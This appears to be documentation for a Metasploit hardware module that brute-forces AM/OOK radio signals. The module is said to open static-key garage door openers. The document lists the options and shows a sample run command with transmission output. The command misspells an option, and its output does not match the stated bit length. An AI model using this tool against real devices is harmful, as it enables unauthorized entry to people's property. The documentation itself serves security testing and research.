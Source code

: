 Port of a brute force utility by Corey Harding of LegacySecurityGroup.com, the original can be found
[here](https://github.com/exploitagency/github-rfpwnon/blob/master/rfpwnon.py).
It's a generic AM/OOK brute forcer with PWM translations.  It has been
demonstrated to work against static key garage door openers.

## Options

  **FREQ**

  Frequency to brute force.

  **BAUD**

  Baud rate.  Default: 2000

  **BINLENGTH**

  Binary bit-length for bruteforcing.  Default: 8

  **REPEAT**

  How many times to repeat the sending of the packet.  Default: 5

  **PPAD**

  Binary data to append to packet.  (Example: "0101")  Default: None

  **TPAD**

  Binary data to add to end of packet.  (Example: "0101")  Default: None

  **RAW**

  Do not do PWM encoding on packet.  Default: False

  **TRI**

  Use trinary signals.  Default: False

  **EXTRAVERBOSE**

  Adds some extra status messages.

  **INDEX**

  USB Index number.  Default: 0

  **DELAY**

  How many milliseconds to delay before transmission.  Too fast tends to lock up the device.  Default: 500 (0.5 seconds)

## Scenarios

  Run a brute force of 6 characters long with 2 repeats:

```
hwbridge > run post/hardware/rftransceiver/rfpwnon FREQ=915000000 BINLEGTH=6 REPEAT=2

[*] Generating de bruijn sequence...
[*] Brute forcing frequency: 915000000
[*] Transmitting...
[*] Binary before PWM encoding:
[*] 00000000
[*] Binary after PWM encoding:
[*] 11101110111011101110111011101110
[*] Transmitting...
[*] Binary before PWM encoding:
[*] 00000000
[*] Binary after PWM encoding:
[*] 11101110111011101110111011101110
[*] Transmitting...
[*] Binary before PWM encoding:
[*] 00000001
[*] Binary after PWM encoding:
[*] 11101110111011101110111011101000
[*] Transmitting...
[*] Binary before PWM encoding:
[*] 00000001
[*] Binary after PWM encoding:
[*] 11101110111011101110111011101000
[*] Transmitting...
[*] Binary before PWM encoding:
[*] 00000010
[*] Binary after PWM encoding:
[*] 11101110111011101110111010001110
[*] Transmitting...
...
```
